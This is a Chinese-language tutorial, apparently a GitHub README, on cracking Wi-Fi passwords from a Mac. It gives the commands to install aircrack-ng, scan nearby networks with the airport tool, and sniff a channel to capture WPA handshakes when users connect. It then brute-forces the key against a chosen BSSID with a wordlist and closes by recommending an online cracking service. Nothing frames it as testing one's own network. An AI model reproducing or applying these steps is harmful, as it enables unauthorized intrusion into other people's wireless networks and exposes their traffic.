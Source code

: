 # MacOS Wi-Fi 密码破解

## 第一步：安装aircrack-ng

```bash
brew install aircrack-ng
```

## 第二步：获取本机无线网卡

通过ifconfig命令获取当前的网卡的名字， 我这边网卡名字为en0：

![1136594-20190509113023452-1542251724.png](img/1136594-20190509113023452-1542251724.png)

## 第三步：获取所有的无线网络

使用mac系统自带的airport工具， 查看当前的无线网络， 以及它们的相关信息

```bash
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
```

```bash
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```

以下为我附近所有的wifi， 注意看表格， SSID， BSSID， CHANNEL，这些关键词都会在后面提到：

![1136594-20190509113023452-1542251724.png](img/1136594-20190509113023452-1542251724.png)

## 第四步：开始抓包 ， 收集监听周围无线网络的数据

参数en0是我电脑的默认网卡， 数字6是网卡需要监听的网络频道:

```bash
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff 6
```

开始监听以后， wifi的图标会发生改变

![497865-20170108232218441-1459515906.png](img/497865-20170108232218441-1459515906.png)

监听久一点， 然后使用ctrl+c停止监听， 系统会把监听到的数据保存到本地，数据保存到/tmp/airportSniffdaMCjH.cap文件中：

![497865-20170108231500300-323707699.png](img/497865-20170108231500300-323707699.png)

在监听的过程中如果有用户登陆这个wifi， 那么包就会被我们截获， 如果用户一直没有登陆到这个wifi， 我们就还要继续等待监听， 尽量在手机或者手提电脑所用高峰期开启捕获， 这样捕获握手（handshake）的几率比较高

## 第五步：查看cap文件中的数据是否被抓取到 handshake

```bash
sudo aircrack-ng   /tmp/airportSniff8g0Oex.cap
或者直接使用命令：
sudo aircrack-ng   /tmp/airportSniff8g0Oex.cap | grep "1 handshake"
```

如果要查询的路由列表的Encryption值为WPA(1 handshake) ，说明抓取成功， 否者跳到第四步，要重新抓取：

![1136594-20190509113336664-1554660098.png](img/1136594-20190509113336664-1554660098.png)

## 第六步：输入命令air-crack开始破解

-w 后面的dict.txt是字典文件，只要字典够大， 密码破出来应该指日可待， 字典可以自己去做，或者网上下载
-b 后面的参数bc:46:99:df:6c:72指的是网卡的BSSID， 最后面的一个文件路径是上一步监听到的数据

```bash
sudo aircrack-ng -w dict.txt -b bc:46:99:df:6c:72 /tmp/airportSniffdaMCjH.cap
```

破解成功以后，命令行会显示KEY FOUND ：

![1136594-20190509113431926-550261239.png](img/1136594-20190509113431926-550261239.png)

如果觉的自己弄个字典爆破很麻烦， 有些第三方的网站提供免费爆破，或者收费的爆破，https://gpuhash.me/
